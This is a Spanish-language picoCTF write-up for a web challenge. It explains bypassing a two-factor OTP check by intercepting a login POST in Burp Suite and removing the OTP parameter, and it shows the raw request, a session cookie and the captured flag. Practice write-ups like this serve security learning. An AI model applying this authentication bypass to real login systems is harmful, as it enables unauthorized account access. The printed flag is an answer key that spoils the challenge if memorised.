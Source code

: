 ## Descripción 
Additional details will be available after launching your challenge instance.
Try [here](http://titan.picoctf.net:60989/) to find the flag

Hint:
1. Try using burpsuite to intercept request to capture the flag.
2. Try mangling the request, maybe their server-side code doesn't handle malformed requests very well.
## Solución 1

Para resolver este reto, primero interceptamos la petición POST con Burp después de poner los datos. Luego en la petición eliminamos el parámetro `OTP` de la petición antes de enviarla al servidor. Como el servidor está mal programado, al no recibir el OTP simplemente omite la validación del 2fa y nos deja entrar

```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:56853
Content-Length: 13
Cache-Control: max-age=0
Accept-Language: es-419,es;q=0.9
Origin: http://titan.picoctf.net:56853
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:56853/dashboard
Accept-Encoding: gzip, deflate, br
Cookie: session=.eJwljUsOgzAMRO-SdRckkF_3PQcyJGlLwUGJESpV716jLmfG7_kjxie9xVUcGO4HobiIsZbUU35F5BosaCVbBSCNBul86xrduGSCk4NOXtngrZGBubTNc4-wRMb2MsRyyjKtHHXnre84rlDrnks4H05EU6TpdtaPjLHHbWGKJ6naThvrfMPbVtn0t2I8kPji-wPVeTf9.Z_H3YA.JtV4iXJxFgJh8bFSwYqWfFBAK00
Connection: keep-alive

otp=123456789

borramos otp y nos da la flag

flag: picoCTF{#0TP_Bypvss_SuCc3$S_3e3ddc76}
```
